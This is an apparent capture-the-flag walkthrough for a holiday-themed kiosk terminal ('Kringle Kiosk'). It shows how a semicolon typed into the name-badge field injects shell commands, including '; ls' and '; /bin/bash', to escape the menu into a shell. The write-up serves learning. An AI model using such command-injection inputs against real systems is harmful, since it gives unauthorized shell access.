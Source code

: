 # Shinny Upatree

---

## Kringle Kiosk

![capture](./img/Capture.PNG)

*Current Area: Castle Approach*



### Hints

1. ![hint1](./img/hint1.PNG)

   Link: [command injection](https://owasp.org/www-community/attacks/Command_Injection)
   
   

### Solution

Clicking on the Kringle Kiosk will reveal a terminal with the following text:

```
Welcome to our castle, we're so glad to have you with us!
Come and browse the kiosk; though our app's a bit suspicious.
Poke around, try running bash, please try to come discover,
Need our devs who made our app pull/patch to help recover?

Escape the menu by launching /bin/bash

Press enter to continue...
```

Following the instruction, we press enter:

```
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 Welcome to the North Pole!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. Map
2. Code of Conduct and Terms of Use
3. Directory
4. Print Name Badge
5. Exit

Please select an item from the menu by entering a single number.
Anything else might have ... unintended consequences.

Enter choice [1 - 5] 
```

After exploring the option, it seems like the vulnerability lies in option 4:

```
Enter choice [1 - 5] 4
Enter your name (Please avoid special characters, they cause some weird errors)...kambing
 _________
< kambing >
 ---------
  \
   \   \_\_    _/_/
    \      \__/
           (oo)\_______
           (__)\       )\/\
               ||----w |
               ||     ||
Press [Enter] key to continue...
```

After some trial and error, I noticed that entering `;` will enable me to execute shell scripts.

For example:

```
Enter choice [1 - 5] 4
Enter your name (Please avoid special characters, they cause some weird errors)...;ls
 _______________________
< Santa's Little Helper >
 -----------------------
  \
   \   \_\_    _/_/
    \      \__/
           (oo)\_______
           (__)\       )\/\
               ||----w |
               ||     ||
welcome.sh
Press [Enter] key to continue...
```

At the start of the launching the terminal, the message said to try run bash.

```
Enter choice [1 - 5] 4
Enter your name (Please avoid special characters, they cause some weird errors)...; /bin/bash
 _______________________
< Santa's Little Helper >
 -----------------------
  \
   \   \_\_    _/_/
    \      \__/
           (oo)\_______
           (__)\       )\/\
               ||----w |
               ||     ||
   ___                                                      _    
  / __|   _  _     __      __      ___     ___     ___     | |   
  \__ \  | +| |   / _|    / _|    / -_)   (_-<    (_-<     |_|   
  |___/   \_,_|   \__|_   \__|_   \___|   /__/_   /__/_   _(_)_  
_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_| """ | 
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
Type 'exit' to return to the menu.
shinny@5fb372afa943:~$ 
```

We have access to the terminal's bash!

---


